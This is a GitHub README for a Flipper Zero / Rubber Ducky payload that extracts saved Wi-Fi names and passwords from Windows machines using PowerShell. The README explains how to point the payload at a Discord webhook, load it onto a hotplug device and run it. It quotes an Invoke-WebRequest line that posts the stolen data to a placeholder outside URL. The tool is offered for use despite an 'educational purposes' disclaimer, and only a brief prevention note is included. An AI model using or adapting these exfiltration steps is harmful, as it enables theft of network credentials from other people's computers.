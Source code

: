> [!IMPORTANT]
> The author and contributors claim no responsibility for unauthorized or unlawful utilization. This encompasses the use of the material, whether through forks or modifications undertaken by third parties. Users are strongly encouraged to exercise due diligence and assume full responsibility for their actions. The contents within this repository are provided solely for educational purposes.

<br>

![Some Weird Image](https://github.com/cxdzc/wifi-credential-exfil/assets/110936008/11c7bdde-e4b0-4cdf-9ccd-22e4b86f28ad)

# 📦 WAKER Wi-Fi Credential Exfiltration v1.0.0
Obtain Wi-Fi names and passwords from a Microsoft Windows operating system computer. This can be accessed by leveraging the convenience of Wi-Fi profiles that are saved on Microsoft Windows operating systems using PowerShell. 

<br>

> [!NOTE]
> The payload was designed for a Flipper Zero using the classic Rubber Ducky Scripting Language 1.0 to exfiltrate data through the use of Discord webhooks. It can also be used as a regular payload with a webhook.

# 📄 Instructions
1. Replace `https://YOUR_LINK_HERE.com` in [payload.txt](https://github.com/cxdzc/wifi-credential-exfil/payload.txt) with your custom webhook.

`...Invoke-WebRequest -Uri https://YOUR_LINK_HERE.com -Method Post...`

2. Upload [payload.txt](https://github.com/cxdzc/wifi-credential-exfil/payload.txt) to your hotplug.
3. Execute the file.

# ⛔ Prevention
There are many ways to prevent this hotload attack from occurring. A very quick, simple, and temporary way is by deleting "Managed Known Networks" in Settings and to refrain from saving your Wi-Fi passwords.

# 📜 License
The content and software in this GitHub repository are licensed under the Creative Commons [Attribution-NonCommercial-ShareAlike 4.0 International License](LICENSE). Users are free to share and adapt the material covered by this license, subject to the following conditions: provide appropriate attribution, refrain from employing it for commercial purposes, and distribute any derivative works under the same licensing terms.

> [!NOTE]
> If you would like to provide appropriate attribution, you may simply refer to this GitHub [repository](https://github.com/cxdzc/wifi-credential-exfil) or this GitHub account [@cxdzc](https://github.com/cxdzc).

<a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png" /></a>
